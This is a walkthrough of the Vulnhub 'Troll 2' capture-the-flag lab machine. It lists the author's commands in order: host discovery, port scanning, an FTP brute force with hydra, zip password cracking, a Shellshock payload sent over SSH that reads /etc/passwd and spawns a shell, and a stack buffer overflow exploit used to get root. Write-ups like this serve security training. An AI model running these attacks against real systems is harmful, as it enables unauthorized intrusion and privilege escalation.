

Vulnhub Troll 2
Difficulty: beginner to intermediate
Link: https://www.vulnhub.com/entry/tr0ll-2,107/
First thing first i wanted to figure out the machine ip so i used netdiscover
=> netdiscover -r 192.168.1.1/24
Then i scanned the open ports using the nmap
=> nmap -sC -sV 192.168.1.105 -oN nmap
I started with the ftp port by trying ananoumus in username and password but it
didn't work
So i moved to the webpage
I looked into the source code. There was only a comment with some names
so took a note of them in a file and called it users.txt
and used hydra to see if i can login to ftp using the names i got
=> hydra -L users.txt -P users.txt 192.168.1.105 ftp
and i got a hit
I loged in and found only .zip file
So i downloaded it to my machine using the command get to see what is inside
but it was protected with a password
So i moved on started to fuzz the webpage using WFUZZ i got only robots.txt.
Inside robots.txt there was a list of directories i tried the first one and go a page
but not with the secound one
noted all of them in directories.txt and used it with wfuzz to figure out which one is working
=> wfuzz -c -z file,./directories.txt --hc 404 http://192.168.1.105/FUZZ
so now i have only 4 pages to check
all of them had the same photo
and a comment in the source code
So i downloaded the 4 photos to see if there is any steganography in them.
First i used stegsolve but i didn't find any info in the photo itself
then i used strings and i got something from the one wich was in /dont_bother directory

and when i checked the y0ur_self directory i found an file called answer
inside it there was a base64 decoded list
i downloaded the file and decoded it
=> wget http://192.168.1.105/y0ur_self/answer.txt
=> cat answer.txt |base64 -d > decoded-answer.txt
So now i have a list of words so i went back to the protected .zip file
and used fcrackzip inorder to crack its password
=> fcrackzip -u -D -p ./decoded-answer.txt lmao.zip
and i got a hit
Inside the zip file there was a ssh private kay file
so i tried to login using the user noob
=> ssh -i id_rsa -l noob 192.168.1.105
but the machine wasn't that easy

I ran the command again with verbose mode on so i found that running commands was
set up for authorized keys for user noob. That's why the connection was closed immediately
so i did some research and found that i can bypass this problem using
shellshock
so i tried to use it to read the /etc/passwd file
=> ssh -i noob -l noob 192.168.1.105 '() { :;}; cat /etc/passwd'
and it worked
so i modified it to shell
=> ssh -i noob -l noob 192.168.1.105 '() { :;}; /bin/bash'
then i upgraded it
=> python -c 'import pty; pty.spawn("/bin/bash")'
and i am in!
first thing i enumerated the home direcroty but nothing was there
then i went to the / directory and a file called nothing_to_see_here
got my attention
inside it there was another file called choose_wisely which included 3 doors
two of them was designed to distract me and the 3rd one was a file with
buffer overflow vulnerability.
And i found out that after specific amount of time the 3 doors were shuffled
that's why i copied the vulnerabe one to /tmp and worked with it
I wanted to know whether this linux system is 32-bit or 64-bit
inorder to know which shell am i going to use. So i used uname command
=> uname -m
It's 32 bit.
then i ran the file with gdb to test it
=> gdb ./r00t
first i tried to input different amount of A to find out the sequance i need
i started with 200
it worked normally
then i increased it to 300 .. it crashed
now i need a unique pattern so i can i dentify the exact length which caused the crash
so u used msf-pattern_create and specified it's length to 300
=> msf-pattern_create -l 300
then i ran the pattern i got

then inorder to see the content of the register
=> info reg
now i used the eip value with msf-pattern_create to get the exact length
=> msf-pattern_offset -l 300 -q 0x6a413969
to test the result i got i ran it combined with 4 B
it worked!
now i need to get the return address which is the esp of the full shell
i used 24 bit shell from
here
which is about 100 character. that's why i gave it only 20 of NOPS
to give it space of decoiling
=> run `python -c 'print "A" * 268 + "B" * 4 + "\x90" * 20 + "C" * 100 '`
esp => 0xbffffb80
i took it and combined it with the shell in form of little indian tested it file of /tmp directory
it worked!
so i ran it in the original file
and i got root :)